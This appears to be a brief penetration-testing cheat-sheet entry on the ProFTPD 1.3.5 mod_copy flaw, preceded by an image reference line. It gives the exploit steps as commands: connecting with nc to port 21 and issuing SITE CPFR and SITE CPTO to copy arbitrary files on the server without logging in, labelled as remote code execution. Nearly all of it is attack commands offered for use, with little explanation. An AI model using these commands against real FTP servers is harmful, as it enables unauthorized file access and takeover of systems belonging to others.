 # FTP

# proftpd v1.3.5

- mod_copy RCE

```
nc 0.0.0.0 21
SITE CPFR /path/to/file
SITE CPTO /path/to/destination/file

```